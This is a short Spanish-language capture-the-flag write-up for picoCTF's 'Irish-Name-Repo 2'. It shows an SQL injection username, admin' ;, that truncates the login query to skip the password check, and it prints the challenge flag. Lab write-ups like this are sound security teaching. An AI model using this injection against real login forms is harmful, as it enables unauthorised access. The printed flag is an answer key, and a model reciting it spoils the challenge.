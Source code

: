 # Irish-Name-Repo 2
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

Hints:
- The password is being filtered.

## Solución
Si se intenta aplicar la misma solución a la de Irish-Name-Repo 1 nos indicara que se detecto la inyección de SQL.
Aunque si mandamos un **;** en el campo username nos mostrara la bandera.

Haciendo esto solo tomamos el nombre de usuario en la base de datos ignorando la contraseña.

```
username: admin' ;
password: admin
SQL query: SELECT * FROM users WHERE name='admin' ;' AND password='admin'
```

```
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```